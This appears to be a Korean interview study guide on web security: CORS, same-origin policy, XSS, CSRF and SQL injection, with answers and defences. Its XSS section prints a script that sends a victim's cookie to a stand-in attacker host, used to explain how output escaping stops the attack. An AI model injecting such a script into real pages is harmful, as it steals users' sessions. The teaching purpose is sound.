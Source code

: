 ## Servlet이란 어떤 것인지

## CORS란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 브라우저 환경에서만 적용되며 한 출처가 다른 출처에 요청을 할 수 있도록 하는 보안 메커니즘

- 모든 브라우저는 단일 출처 정책(Single Origin Policy)을 따른다

- 즉, 기본적으로 다른 출처에 요청할 수 없지만 서버가 적절하게 구성된 CORS 헤더를 제공하는 경우 선택적으로 교차 출처 정책을 사용할 수 있습니다.

 ### 브라우저에서만 적용된다는 말은 무슨 말인가?
 
- 브라우저에서 다른 서버에서 요청할 경우에 해당되고, 브라우저를 거치지 않고 **서버 간 통신**을 할 때는 이 정책이 적용되지 않는다.

### 단일 출처 정책(Single Origin Policy)이 무엇인가?

- **origin(출처)** 이란 scheme(protocol), host(domain), port 로 구성

- 예를들어, https://www.google.com/maps 라는 주소가 있다고하면 [ protocol은 https:// ] [ Host는 www.google.com ] [ Port는 :443 ]

- 동일 출처(Same Origin) 란 scheme, host, port 가 모두 같을때를 말한다.

- SOP(Same-Origin Policy) 이란 같은 출처에서만 리소스를 공유할 수 있다는 규칙

### 다른 origin에 있는 리소스를 허용하지 않는 이유는 무엇인가?

- ( = 이런 정책이 왜 존재할까?) 만약 다른 출처의 어플리케이션이 서로 통신하는 것에 대해 아무런 제약도 존재하지 않는다면 악의를 가진 사용자가 소스 코드를 보고 CSRF(Cross-Site Request Forgery)나 XSS(Cross-Site Scripting)와 같은 방법을 사용하여 정보를 탈취할 수 있다.

- CORS는 다른 출처의 리소스가 필요한 경우, SOP를 우회하기 위한 여러가지 방법 중 가장 권장되는 방법이다.

https://chanto11.tistory.com/67

https://ingg.dev/cors/

</details>




------
## XSS란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 공격자가 클라이언트 측 스크립트를 웹 페이지에 삽입하는 공격

- XSS 를 사용하여 동일 출처 정책 및 CSRF 보호를 모두 우회 할 수 있습니다.

- 사용자가 웹 사이트를 방문 할 때마다 트리거되고 이는 서버를 손상시킬 수 있습니다.

- XSS 는 가장 일반적으로 악용되는 취약점입니다.

- XSS 는 출력부분에서 가장 잘 처리할 수 있습니다.

[ 입력 -> 데이터베이스 -> **출력(이스케이프 처리)** ]

### esacpe를 처리한다 라는 말을 들어보았는가? 이게 어떤걸 말하는가?

특정 문자를 원래의 기능에서 벗어나게 변환하는 행위를 **이스케이프(Escape)** 라고 한다.

 HTML에서 다음과 같은 상황은 렌더링이 되지 않는다.  ->  <div>  <onlydev     </div> 
  
HTML은 '<'을 태그의 시작으로 인식하기 때문에 뒷부분이 에러가 나서 제대로 렌더링이 되지 않는다. 이런 상황들을 고려해 원래의 기능에서 벗어난 문자열로 변환하여 의도대로 구문 분석을 하도록 이스케이프를 한다.     ->  <div>     &lt;onlydev      </div>

**그런데 이스케이프가 어떻게 XSS 공격을 방지할 수 있을까?** 

크로스 사이트 스크립팅 공격은 블로그나 게시판 같은 서비스에서 주로 일어나며 여러 사람들이 보는 글에 **스크립트**를 주입해서 사용자의 정보(쿠키, 세션)를 탈취하거나 비정상적인 기능을 수행하게 한다.

예를 들어 글을 쓸 때

1. 제목과 글을 입력해서 글쓰기를 클릭하면
2. 웹 서버에선 해당 데이터를 받아서 DB에 저장한다.
3. 다른 사용자가 해당 서버에 접속해 DB에 있는 해당 글을 읽게 되면
4. 그 때 써놓은 내용을 볼 수 있다.

이런 과정에서 글 대신 **스크립트 언어**를 써서 다른 사용자가 해당 글을 읽을 때 **스크립트 언어가 실행**되어 피해를 입게 하는 것이 XSS 공격이다.
```
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```

해당 스크립트 코드가 실행 되면 피해자의 쿠키값을 해커의 서버 주소인 http://hackerServer.com에 그대로 전부 보내게 되고 해당 정보를 이용해 악용할 수 있는 것이다. 

```
<!-- 이스케이프 후  -->
&lt;script&gt;
  let xmlHttp = new XMLHttpRequest();
  const url =
    &quot;http://hackerServer.com?victimCookie=&quot; +
    document.cookie;
  xmlHttp.open(&quot;GET&quot;, url);
  xmlHttp.send();
&lt;/script&gt;
```

렌더링이 되기 전(사용자에게 보이기 전) 이스케이프된 모든 값은 브라우저에선 아래와 같이 입력한 그대로 보이게 되지만 HTML 본연의 태그나 스크립트 기능이 제거가 되기 때문에 XSS(Cross Site Scripting) 공격을 방지할 수 있다.

```
<!-- 이스케이프 후 브라우저에서 보이는 화면-->
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```

https://wikidocs.net/127508

https://onlydev.tistory.com/78

### **■ 공격 유형에 따른 분류**

공격자가 삽입한 악성스크립트가 사용자 측에서 어떻게 동작하는지에 따라 크게 세 가지로 분류할 수 있으며 각각의 개념과 동작 과정은 다음과 같다.


### **Stored XSS (저장형 크로스사이트 스크립팅)**

공격자의 악성스크립트가 데이터베이스에 저장되고 이 값을 출력하는 페이지에서 피해가 발생하는 취약점이다.

공격자는 악성스크립트가 포함된 게시물을 작성하여 게시판 등 사용자가 접근할 수 있는 페이지에 업로드한다. 이때 사용자가 악성스크립트가 포함된 게시물을 요청하면, 공격자가 삽입한 악성스크립트가 사용자 측에서 동작하게 된다.

공격자의 악성스크립트가 서버에 저장되어 불특정 다수를 대상으로 공격에 이용될 수 있어 Reflected XSS보다 공격 대상의 범위가 훨씬 크다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/68792e47-656d-47ff-b529-9e0f6f6b4777" width="500" height="300"/>
  
[Stored XSS]

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/46b79afb-568a-4364-926d-5479bb3ff3da" width="400" height="300"/>

Stored XSS 공격 과정은 다음을 통해 확인할 수 있다.

[Stored XSS 공격 과정]


### **Reflected XSS (반사형 크로스사이트 스크립팅)**

사용자가 요청한 악성스크립트가 사용자 측에서 반사(Reflected)되어 동작하는 취약점으로, 공격자의 악성스크립트가 데이터베이스와 같은 저장소에 별도로 저장되지 않고 사용자의 화면에 즉시 출력되면서 피해가 발생한다.

공격자는 악성스크립트가 포함된 URL을 이메일, 메신저 등을 통해 사용자가 클릭할 수 있도록 유도한다. 사용자가 악성스크립트가 삽입된 URL을 클릭하거나 공격자에 의해 악의적으로 조작된 게시물을 클릭했을 때 사용자의 브라우저에서 악성스크립트가 실행된다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/7fd0cd4a-127f-4e92-b672-735dd669aaf4" width="500" height="300"/>


[Reflected XSS]

Reflected XSS 공격 과정은 다음을 통해 확인할 수 있다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/fada8137-1912-4d96-8d54-44b8f244752b" width="400" height="300"/>

[Reflected XSS 공격 과정]


### **DOM Based XSS (DOM 기반 크로스사이트 스크립팅)**

공격자의 악성스크립트가 DOM 영역에서 실행됨으로써 서버와의 상호작용 없이 브라우저 자체에서 악성스크립트가 실행되는 취약점이다. DOM 영역에 변화가 생기면 브라우저는 서버로 패킷을 보내지 않고 DOM 영역에서 페이지를 변환시킨다. 따라서 DOM의 일부로 실행되기 때문에 브라우저 자체에서 악성스크립트가 실행된다.

- DOM(Document Object Model, 문서 객체 모델) 이란?

브라우저가 웹 페이지를 렌더링 하는데 사용하는 모델로 HTML 및 XML 문서에 접근하기 위한 인터페이스이다. 브라우저는 HTML 문서를 읽고 해석한 결과를 DOM 형태로 재구성하여 사용자에게 제공한다.

</details>


------
## CSRF란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 해서 특정 웹 페이지를 보안에 취약하게 하거나 수정, 삭제 등의 작업을 하게 만드는 공격 방법.

- 공격 난이도가 높지 않아 흔히 사용된다.

- XSS을 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면,

- CSRF는 특정 웹사이트가 사용자의 웹 브라우저를 신용하는 상태를 노린 것이다.

https://devscb.tistory.com/123

### **1.2. CSRF 전제 조건과 공격 과정**

CSRF 공격을 위한 조건과 과정에 대해 알아보겠습니다. CSRF 공격을 시도하기 위해선 아래와 같은 몇 가지 조건이 필요합니다.

- 사용자가 보안이 취약한 서버로부터 이미 인증을 받은 상태여야 합니다.
- 쿠키 기반으로 서버 세션 정보를 획득할 수 있어야 합니다.
- 공격자는 서버를 공격하기 위한 요청 방법에 대해 미리 파악하고 있어야 합니다. 예상치 못한 파라미터가 있으면 불가능합니다.

위와 같은 조건이 만족되면 다음과 같은 과정을 통해 CSRF 공격이 수행됩니다.

1. 사용자는 보안이 취약한 서버에 로그인합니다.
2. 로그인 이후 서버에 저장된 세션 정보를 사용할 수 있는 `sessionID`가 사용자 브라우저 쿠키에 저장됩니다.
3. 공격자는 서버에 인증된 브라우저의 사용자가 악성 스크립트 페이지를 누르도록 유도합니다.
    - 해당 악성 스크립트가 담긴 페이지를 클릭하도록 유도하는 방법은 다양한 것 같으나 몇 가지 유형을 정리하자면 다음과 같습니다.
    - 게시판에 악성 스크립트를 게시글로 작성하여 관리자 혹은 다른 사용자들이 게시글을 클릭하도록 유도합니다.
    - 메일 등으로 악성 스크립트를 직접 전달하거나, 악성 스크립트가 적힌 페이지 링크를 전달합니다.
4. 사용자가 악성 스크립트가 작성된 페이지 접근시 쿠키에 저장된 `sessionID`는 브라우저에 의해 자동적으로 함께 서버로 요청됩니다.
5. 서버는 쿠키에 담긴 `sessionID`를 통해 해당 요청이 인증된 사용자로부터 온 것으로 판단하고 처리합니다.

### CSRF를 방어하는 방법이 무엇이 있는지 설명하라

**Referrer 검증**

서버에서 사용자의 요청에 `Referrer` 정보를 확인하는 방법이 있습니다. 요청 헤더(request header) 정보에서 `Referrer` 정보를 확인할 수 있습니다. 보통이라면 호스트(host)와 `Referrer` 값이 일치하므로 둘을 비교합니다. CSRF 공격의 대부분 `Referrer` 값에 대한 검증만으로 방어가 가능하다고 합니다.

 **CSRF 토큰 검증**

임의의 CSRF 토큰을 만들어 세션에 저장합니다. 요청하는 페이지에 `hidden` 타입 input 태그를 이용해 토큰 값을 함께 전달합니다. 이후 서버에서 세션에 저장된 CSRF 토큰 값과 요청 파라미터에 담긴 토큰 값을 비교합니다

 **Double Submit Cookie 검증**

브라우저의 `Same Origin 정책`을 이용합니다. `Same Origin`이 아닌 경우 `JavaScript`로 쿠키 값을 확인하거나 수정하지 못한다는 점을 이용한 검증 방법입니다. 클라이언트(브라우저)에서 `JavaScript`로 임의의 생성한 토큰을 쿠키와 요청 헤더에 각각 담아서 서버에게 전달합니다. 서버는 전달받은 쿠키와 요청 헤더에서 각자 토큰 값을 꺼내어 이를 비교합니다. 이때, 쿠키에 저장된 토큰 정보는 이후에 재사용하지 못하도록 만료 처리합니다.

</details>




------
## SQL Injection이란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- SQL Injection은 사용자의 입력값이 서버측에서 코드로 실행되는 '코드 인젝션'  공격 기법 중 하나이며, 서버의 데이터베이스를 대상으로 하는 공격이다.

- 사용자 입력값을 제대로 필터링, 이스케이프 하지 않아 발생한다

- 공격의 핵심은 클라이언트 측에서 SQL 쿼리에 신뢰할 수 없는 데이터가 입력되었을 때, 데이터가 쿼리 로직의 일부로 해석되어 DB에서 실행될 때 발생한다.

### 공격 목적

SQL Injection 공격 목적은 다음과 같다. SQL 구문에 추가 절을 삽입하게 되면 쿼리의 의미가 변경되고 의도하지 않은 데이터의 유출, 변조가 가능하다.

1. 정보 유출(Information Leakage)

2. 저장된 데이터 유출 및 조작(Disclosure & Manipulation of stored Data)

3. 원격 코드 실행(Remote Code Excution)
    일부 데이터베이스의 경우 확장 프로시저를 이용하여 원격으로 시스템 명령의 실행이 가능하다. 시스템 명령의 실행은 원격 자원 접근 및 데이터 유출, 삭제가 가능하다.

4. 인증 우회(Bypassing authorisation controls)
    공격의 대표적인 경우로 로그인 폼 등에서 발생한다. 상위 권한을 가진 사용자의 권한으로 인증 절차를 우회하여 로그인 정보 없이 로그인할 수 있다.

https://gomguk.tistory.com/118

</details>
